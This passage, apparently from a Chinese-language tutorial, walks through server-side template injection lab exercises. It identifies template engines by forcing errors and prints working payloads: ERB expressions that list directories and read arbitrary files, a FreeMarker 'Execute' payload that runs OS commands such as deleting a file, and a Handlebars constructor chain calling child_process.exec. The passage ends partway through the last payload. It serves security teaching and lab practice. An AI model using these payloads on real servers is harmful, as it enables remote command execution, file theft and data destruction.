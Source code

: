 说明这里存在ssti漏洞，然后就可以用类似的语法删除指定文件了

[![](https://p1.ssl.qhimg.com/t01c15af931c1c76204.png)](https://p1.ssl.qhimg.com/t01c15af931c1c76204.png)

然后在评论区刷新以后就会执行payload了

[![](https://p1.ssl.qhimg.com/t01b654cd775aecd47a.png)](https://p1.ssl.qhimg.com/t01b654cd775aecd47a.png)

**<a class="reference-link" name="%E4%BA%86%E8%A7%A3%E5%AE%89%E5%85%A8%E6%96%87%E6%A1%A3"></a>了解安全文档**

有时候官方文档除了会提供模板引擎的基础语法外，还会设置很多警示项以帮助开发者提高系统安全性，但是往往这些警示项也会为攻击者提供思路。例如ERB引擎的安全文档指出可以列出所有目录，然后按如下方式读取任意文件

```
&lt;%= Dir.entries('/') %&gt;
&lt;%= File.open('/example/arbitrary-file').read %&gt;
```

**<a class="reference-link" name="%E9%85%8D%E5%A5%97%E9%9D%B6%E5%9C%BA%EF%BC%9A%E5%88%A9%E7%94%A8%E6%96%87%E6%A1%A3%E5%8F%91%E5%8A%A8SSTI%E6%94%BB%E5%87%BB"></a>配套靶场：利用文档发动SSTI攻击**

首先因为题目中没有告诉我们这是哪一款模板引擎，所以我们要让它们使用的模板语句故意报错，从报错信息中我们一般可以知道使用的是哪种模板引擎，在编辑模板的$`{``}`模板表达式中随便输入些什么，就会触发报错

[![](https://p0.ssl.qhimg.com/t011cbdefa093c5dc16.png)](https://p0.ssl.qhimg.com/t011cbdefa093c5dc16.png)

然后我们就可以对症下药了，我们需要去查阅一下相关的文档，看看有没有相关警示项，我们直接去搜freemarker ssti，找到一个利用内置函数执行os命令，payload模板如下<br>`&lt;#assign ex="freemarker.template.utility.Execute"?new()&gt; $`{`ex("[payload]")`}``<br>
于是我们在编辑模板的地方将payload写入模板表达式

[![](https://p4.ssl.qhimg.com/t0158518b98bd2e0d0c.png)](https://p4.ssl.qhimg.com/t0158518b98bd2e0d0c.png)

这样当模板引擎执行表达式的时候就会执行删除命令了

[![](https://p3.ssl.qhimg.com/t0186a89bf827beb0a0.png)](https://p3.ssl.qhimg.com/t0186a89bf827beb0a0.png)

**<a class="reference-link" name="%E6%9F%A5%E6%89%BE%E5%B7%B2%E7%9F%A5%E5%88%A9%E7%94%A8%E6%96%87%E7%AB%A0"></a>查找已知利用文章**

顾名思义，就是当知道使用的是哪种模板引擎后可以利用搜索引擎查找是否有前人总结的漏洞利用方法，这样可以节约很多查阅文档的时间

**<a class="reference-link" name="%E9%85%8D%E5%A5%97%E9%9D%B6%E5%9C%BA%EF%BC%9A%E5%88%A9%E7%94%A8%E5%B7%B2%E7%9F%A5%E5%88%A9%E7%94%A8%E6%96%87%E7%AB%A0%E5%8F%91%E5%8A%A8%E6%9C%AA%E7%9F%A5%E8%AF%AD%E8%A8%80%E7%9A%84SSTI%E6%94%BB%E5%87%BB"></a>配套靶场：利用已知利用文章发动未知语言的SSTI攻击**

因为不知道使用的是哪一款模板引擎，所以我们需要输入各种版本的错误模板表达式以触发报错

[![](https://p5.ssl.qhimg.com/t017361dd0292d26851.png)](https://p5.ssl.qhimg.com/t017361dd0292d26851.png)

然后我们就利用搜索引擎查找一下有没有相关的现成的利用方式，搜到了一个知名的payload模板

```
wrtz`{``{`#with "s" as |string|`}``}`
  `{``{`#with "e"`}``}`
    `{``{`#with split as |conslist|`}``}`
      `{``{`this.pop`}``}`
      `{``{`this.push (lookup string.sub "constructor")`}``}`
      `{``{`this.pop`}``}`
      `{``{`#with string.split as |codelist|`}``}`
        `{``{`this.pop`}``}`
        `{``{`this.push "return require('child_process').exec('[payload]');"`}``}`
        `{``{`this.pop`}``}`
        `{``{`#each conslist`}``}`
          `{``{`#with (string.sub.apply 0 codelist)`}``}`
            `{``{`this`}``}`
          `{``{`/with`}``}`
```